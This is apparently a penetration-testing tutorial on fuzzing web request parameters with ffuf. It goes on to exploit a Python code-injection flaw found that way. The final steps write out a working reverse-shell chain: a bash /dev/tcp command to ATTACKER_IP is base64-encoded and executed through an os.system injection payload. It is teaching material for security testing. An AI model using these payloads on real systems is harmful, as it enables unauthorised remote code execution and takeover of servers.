 Fuzzing URL Parameters can show easy ways to get code execution, sqli etc.

# Example
Take the following request:

![image](https://github.com/user-attachments/assets/414ef308-71c2-436b-bfaf-f3d8e690bc76)

## Step 1: Copy to file
![image](https://github.com/user-attachments/assets/dc63395b-ad89-431a-bb16-17cb4b8fcfdf)

In this case, the file is saved as "search.req".

## Step 2: Add fuzz to request
![image](https://github.com/user-attachments/assets/1ffc985b-21b2-4d2a-a7ed-acab02dabe21)

## Step 3: ffuf
```bash
ffuf -request search.req -request-proto http -w /usr/share/wordlists/seclists/Fuzzing/special-chars.txt -ms 0
```
-request-proto only is required for http as https is the default.
## Step 4: Analyze output
![image](https://github.com/user-attachments/assets/9ff86037-bf98-4763-9f60-4a686f5a853e)

This shows that when the parameter has a \ or ' at the end of it, the page returns nothing - indicating either SQL injection or command injection.

### SQLi Checks
Try standard SQLi checks such as -- - # // 

### Command Injection Checks
If there is a ', then it may form part of a statement - for example: print('INPUT'). So if INPUT=')# and it is similar to the example, then the statement will be print('')#') which is valid and the page will return content instead of 0.

INPUT: 
```
abc'
```
![image](https://github.com/user-attachments/assets/250bcf49-a2c6-45db-b5bd-339990ce7b04)

INPUT:
```
abc')#
```
![image](https://github.com/user-attachments/assets/047e987e-6749-4fdf-9962-aa6c2b2c2a04)

To demonstrate how this leads to code execution, let's try the following: 
```
abc')%20%2b%20print('Code%20Execution%20possible!')%23%20
``` 
![image](https://github.com/user-attachments/assets/13445b76-739a-421a-ac3f-bc6ea4f74a46)

To get a reverse shell, do the following:
```bash
echo -n "bash -c 'bash -i >& /dev/tcp/$(ATTACKER_IP)/$(ATTACKER_PORT) 0>&1'" | base64
```
Add the following payload to the vulnerable parameter:
```
__import__('os').system('echo -n $OUTPUT_OF_PREVIOUS_COMMAND | base64 -d | bash')
```
REMEMBER TO URL ENCODE THE PAYLOAD!!! Make sure characters such as + are encoded and not mistaken for spaces!
